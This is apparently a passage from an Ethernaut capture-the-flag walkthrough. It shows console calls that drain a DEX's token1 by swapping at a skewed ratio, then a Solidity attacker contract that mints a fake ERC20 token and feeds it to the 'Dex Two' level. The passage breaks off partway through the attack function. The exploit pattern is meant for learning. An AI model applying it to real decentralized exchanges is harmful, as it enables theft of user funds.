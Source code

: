     //Get contract's balance of token2
    await contract.balanceOf(token2, instance)

    //The token1:token2 ratio is 110:45, so we should get all of token1 out if we put 45 of token2 in
    await contract.swap(token2, token1, 45)

    //check your work - should return 0
    await contract.balanceOf(token1, instance)

Now you can submit the level.

## 24. Dex Two
    
This level is very similar to the previous one, but now there's nothing stopping outside tokens from being added as liquidity. Let's create our own token and see what sort of havoc we can wreak.

My contract:

    //SPDX-License-Identifier: MIT

    pragma solidity ^0.8.0;

    import "../@openzeppelin/contracts/token/ERC20/ERC20.sol";

    interface IDexTwo {
        function token1() external view returns (address);
        function token2() external view returns (address);
        function swap(address from, address to, uint amount) external;
        function getSwapPrice(address from, address to, uint amount) external view returns(uint);
        function approve(address spender, uint amount) external;
        function balanceOf(address token, address account) external view returns (uint);
    }

    contract FakeToken is ERC20 {
        constructor(uint256 amount) ERC20('fakeToken','FAKE') {
            _mint(msg.sender, amount);
        }
    }

    contract DexTwoAttacker {

        address public immutable instance;
        IDexTwo public immutable dex;
        FakeToken public immutable fakeToken;

        constructor(address _instance) {
            instance = _instance;
            dex = IDexTwo(_instance);
            fakeToken = new FakeToken(1_000_000);
        }

        function attack() external {
            //approve dex instaance for token spend
            fakeToken.approve(instance,1000000000000);

            //supply liquidity (same as calling add_liquidity)
            fakeToken.transfer(instance,1);
